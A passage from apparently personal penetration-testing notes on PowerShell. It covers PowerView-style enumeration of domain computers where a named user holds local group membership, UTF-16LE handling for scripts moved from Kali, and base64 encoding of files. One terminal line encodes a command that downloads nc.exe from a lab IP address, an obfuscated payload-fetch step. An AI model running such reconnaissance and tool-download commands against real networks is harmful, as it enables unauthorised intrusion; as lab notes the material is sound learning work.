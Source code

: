 ```powershell
$sid = Convert-NameToSid harry.jones
$computers = Get-DomainComputer -Properties dnshostname | Select-Object -ExpandProperty dnshostname
Foreach-Object ($c in $computers) { Get-NetLocalGroupMember -ComputerName $c | ? {_.SID -eq $sid }}
```

### Get a List of Aliases

You can review all the aliases with `Get-Alias`. Things like `dir` and `ls` are aliased to `Get-ChildItem`, `cp` is aliased to `Copy-Item`, etc. A lot of these commands are aliased to help Linux users feel more at ease I guess.

### Windows/Powershell is UTF-16 Little Endian

This is mostly meaningless to anyone running on a single Windows box, or even communicating between several windows boxes, but when you are moving scripts from a Linux machine (like, say, a Kali or Parrot VM), they are usually created as UTF-8le on a *nix system. This does not play nice with Powershell. If you are writing a script on a Linux machine, you should use the `iconv` binary to convert the script to UTF-16le before sending it to Windows. Otherwise your script will most likely fail.

```terminal
$ echo Invoke-WebRequest 10.10.20.30:8000/nc.exe -OutFile nc.exe | iconv -t utf-16le | base64 -w0
SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAAMQAwAC4AMQAwAC4AMgAwAC4AMwAwADoAOAAwAD ...snip
```

### Encode a File as Base64

Powershell's method of encoding something in base64 is a little less intuitive than Linux, but the principle is similar I guess. It requires a few extra steps.

```powershell
# First of all, let's take a file object and store it in a variable.
$thisFile = Get-Content -Path .\path\to\some\file.exe

# Now we can convert the file into a Byte String
$deezBytes = [System.Text.Encoding]::Unicode.GetBytes($thisFile)

# Finally, store it in Base64.
$b64 = [Convert]::ToBase64String($deezBytes)
```
> Note: The above code will be garbled nonsense on a Linux box, so you must convert it using `iconv -t utf-8le`. Or you could just replace the `Unicode.GetBytes()` with `UTF8.GetBytes()` instead.
{: .prompt-warning}

Now we have the base64 encoded file stored in the `$b64` variable. Of course, you can always just one-line this, but considering how much goes into one line I figured it would be better to explain the process in three steps. Regardless, this is a one-liner version of the above:

```powershell
$b64 = [Convert]::ToBase64String((Get-Content -Path .\path\to\some\file.exe -Encoding Byte))
```

### Decode a File from Base64

Contrarily, if you have base64-encoded data that you want to decode, you can use the following:
